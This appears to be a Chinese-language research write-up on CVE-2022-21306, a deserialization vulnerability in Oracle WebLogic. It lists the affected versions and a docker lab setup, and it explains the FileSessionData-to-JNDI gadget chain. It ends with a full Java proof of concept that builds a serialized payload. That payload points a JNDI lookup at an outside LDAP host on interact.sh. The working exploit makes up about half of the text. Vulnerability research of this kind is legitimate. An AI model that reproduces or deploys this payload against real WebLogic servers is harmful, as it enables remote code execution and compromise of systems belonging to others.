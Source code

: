 # CVE-2022-21306 反序列化漏洞
- [影响版本](#影响版本)
- [环境搭建](#环境搭建)
- [原理分析](#原理分析)
		- [FileSessionData](#FileSessionData)  
		- [AttributeWrapperUtils](#AttributeWrapperUtils)  
		- [JNDI](#JNDI)  
- [poc](#poc)

## 影响版本
Oracle Weblogic 12.1.3.0.0   
Oracle Weblogic 12.2.1.3.0  
Oracle Weblogic 12.2.1.4.0 
Oracle Weblogic 14.1.1.0.0
## 环境搭建
`docker run --name="weblogic" -d -p 7001:7001 -p 5005:5005 vulhub/weblogic:12.2.1.3-2018`
## 原理分析
一条T3协议的反序列化新链,简单记录一下该链.

### FileSessionData
在Weblogic的有一个FileSessionData类继承于SessionData类,其重写了toString()方法.
![](pic/2022-05-31-10-05.png)
在该类中经过几次调用最后会执行AttributeWrapperUtils.unwrapObject(name, (AttributeWrapper)o.
![](pic/2022-05-31-10-05-1.png)
其中o是从attributes map中取得Key为wl_debug_session的对象.
### AttributeWrapperUtils
来到AttributeWrapperUtils类中,当取得的对象为BusinessHandle子类时则会调用BusinessHandle类的getBusinessObject()方法.	
![](pic/2022-05-31-10-05-2.png)
来到其getBusinessObject()方法,其中当primarkKey为空时,则调用homeHandle#getEJBHome()方法.
![](pic/2022-05-31-10-05-4.png)
### JNDI
最终在homeHandle中执行了以ctx.lookup()造成JDNI注入.
![](pic/2022-05-31-10-05-5.png)

最后用CC5中的BadAttributeValueExpException来进入FileSessionData的toString()方法即可.
### poc
```java
import weblogic.ejb.container.internal.BusinessHandleImpl;  
import weblogic.ejb20.internal.HomeHandleImpl;  
import weblogic.servlet.internal.AttributeWrapper;  
import weblogic.servlet.internal.session.FileSessionData;  
import javax.management.BadAttributeValueExpException;  
import javax.naming.ldap.LdapName;  
import java.io.FileOutputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
import java.util.HashMap;  
import java.util.Map;  
  
public class cve_2022_21306 {  
    public static void main(String[] args) throws Exception {  
        //HomeHandleImpl  
        HomeHandleImpl homeHandles = new HomeHandleImpl();  
        Field jndiname = homeHandles.getClass().getDeclaredField("jndiName");  
        Field serverurl = homeHandles.getClass().getDeclaredField("serverURL");  
        serverurl.setAccessible(true);  
        jndiname.setAccessible(true);  
        jndiname.set(homeHandles,new LdapName("cn=a,dc=a"));  
        serverurl.set(homeHandles,"ldap://caa336c2vtc0000tkqx0gffd8ahyyyyyd.interact.sh/a");  
        //BusinessHandleImpl  
        BusinessHandleImpl businessHandle = new BusinessHandleImpl();  
        Field homeHandle = businessHandle.getClass().getDeclaredField("homeHandle");  
        homeHandle.setAccessible(true);  
        homeHandle.set(businessHandle,homeHandles);  
        //AttributeWrapper  
        AttributeWrapper attributeWrapper = new AttributeWrapper(businessHandle);  
        Map<String, Object> attribute = new HashMap<>();  
        attribute.put("wl_debug_session",attributeWrapper);  
        //FileSessionData  
        FileSessionData fileSessionData = new FileSessionData();  
        Field attributes = fileSessionData.getClass().getSuperclass().getDeclaredField("attributes");  
        attributes.setAccessible(true);  
        attributes.set(fileSessionData,attribute);  
        //BadAttributeValueExpException  
        BadAttributeValueExpException Badobj = new BadAttributeValueExpException(null);  
        Field val = Badobj.getClass().getDeclaredField("val");  
        val.setAccessible(true);  
        val.set(Badobj,fileSessionData);  
        ObjectOutputStream oos  = new ObjectOutputStream(new FileOutputStream("test.ser"));  
        oos.writeObject(Badobj);  
    }}
```